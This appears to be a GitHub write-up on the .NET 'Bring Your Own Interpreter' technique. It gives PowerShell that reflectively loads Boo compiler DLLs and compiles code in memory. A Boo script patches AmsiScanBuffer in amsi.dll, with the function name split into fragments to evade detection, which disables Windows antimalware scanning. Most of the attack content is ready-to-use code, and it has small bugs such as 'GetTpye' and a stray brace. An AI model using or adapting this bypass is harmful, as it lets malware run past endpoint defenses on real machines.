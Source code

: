 ### 1 - Introduction 

**What is .NET Assemblies :**

Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications. An assembly is a collection of types and resources that are built to work together and form a logical unit of functionality. Assemblies take the form of executable (.exe) or dynamic link library (.dll) files, and are the building blocks of .NET applications. 
They provide the common language runtime with the information it needs to be aware of type implementations.



- .NET assemblies can be executed by any .NET langage
- The function `Assembly.Load()` will reflectively load .NET Assemblies

>⚠️  **.NET Format Assemblies ≠ C Format Assemblies**

### 2 - BYOI Concept

this technique which was discovered [byt3bl33d3r](https://github.com/byt3bl33d3r) consists in using third party parts of the languages present in .NET for embedding a interpreter into a default .NET langage


```powershell
function Invoke-BoolangAmsiPatch {
    $BooLangDLL = @'<BOOLANG_DLL>'@
    $BooLangCompilerDLL = @'<BOOLANG_COMPILER_DLL>'@
    $BooLangParserDLL = @'<BOOLANG_PARSER_DLL>'@
    $BoolangExtensionsDLL = @'<BOOLANG_EXTENSION_DLL>'@

    function Load-Assembly($EncodedCompressedFile){
        $DeflatedStream = [IO.Compression.DeflateStream]::new([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile), [IO.Compression.CompressionMode]::Decompress)
        $UncompressedFileBytes = New-Object Byte[] (1900000)
        $DeflatedStream.Read($UncompressedFileBytes, 0, 1900000) | Out-Null
        return [Reflection.Assembly]::Load($UncompressedFileBytes)
    }
    $BooLangAsm = Load-Assembly($BooLangDLL)
    $BooLangCompilerAsm = Load-Assembly($BooLangCompilerDLL)
    $BooLangParserAsm = Load-Assembly($BooLangParserDLL)
    $BooSource = @' {Code Here} '@
    
    $scriptinput = [Boo.Lang.Compiler.IO.StringInput]::new("MyScript.boo", $booSource)
    $parameters = [Boo.Lang.Compiler.CompilerParameters]::new($false)
    $parameters.Input.Add($scriptinput) | Out-Null
    $parameters.Pipeline = [Boo.Lang.Compiler.Pipelines.CompileToMemory]::new()
    $parameters.Ducky = $true
    $parameters.AddAssembly($BooLangAsm)
    $parameters.AddAssembly($BoolangExtensionsAsm)
    $parameters.AddAssembly($BooLangCompilerAsm)
    $parameters.AddAssembly($BooLangParserAsm)
    $parameters.AddAssembly([Reflection.Assembly]::LoadWithPartialName("mscorlib"))
    $parameters.AddAssembly([Reflection.Assembly]::LoadWithPartialName("System"))
    $parameters.AddAssembly([Reflection.Assembly]::LoadWithPartialName("System.Core"))
    $compiler = [Boo.Lang.Compiler.BooCompiler]::new($parameters)
    Write-Output = "[*] Compiling"
    $context = $compiler.Run()

    if ($context.GeneratedAssembly -ne $null){
        Write-Output "[*] Execution"
        $scriptModule = $context.GeneratedAssembly.GetTpye("MyScriptModule")
        $mainfunction = $scriptModule.GetMethod("Main")
        $mainfunction.Invoke($null, $null)
    }
    else {
        Write-Output $context.Errors.ToString($true)
    }
}
}
```
the $BooSource Variable will contain the boolang code

```boo
import System
import System.Runtime.InteropServices

[DllImport("kernel32.dll", SetLastError: true, CharSet: CharSet.Unicode)]
public static def LoadLibrary(lpFileName as string) as IntPtr:
	pass
	
[DllImport("kernel32.dll", CharSet: CharSet.Ansi, ExactSpelling: true, SetLastError: true)]
public static def GetProcAddress(hModule as IntPtr, procName as string) as IntPtr:
	pass
	
[DllImport("kernel32.dll")]
public static def VirtualProtect(lpAddress as IntPtr, dwSize as int, flNewProtect as uint, ref lpfOldProtect as IntPtr) as bool:
	pass

public static def PatchMem(dll as string, function as string, patch as (byte)):
	try:
		oldProtect as IntPtr = 0
		library = LoadLibrary(dll)
		print ""
		print "[>] $(dll) address : $(library)"
		address = GetProcAddress(library, function)
		result = VirtualProtect(address, patch.Length, 0x40, oldProtect)
		Marshal.Copy(patch, 0, address, patch.Length)
		result = VirtualProtect(address, patch.Length, 0x20, oldProtect)
	except:
		print "[!] Error when Patching $(dll) : $(function)"
public static def Main():
	amsi_patch as (byte)
	if IntPtr.Size == 8:
		print "[*] x64"
		amsi_patch = array(byte, [0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3])
	else:
		print "[*] x86"
		amsi_patch = array(byte, [0xB8, 0x57, 0x00, 0x07, 0x80, 0xC2, 0x18, 0x00])
	PatchMem("am"+"si.dll", "Am"+"si"+"Sc"+"AnBu"+"ffer", amsi_patch)
```

![image](https://user-images.githubusercontent.com/75935486/154958196-8b4281b8-87d4-4a91-8e11-4d2092358a94.png)
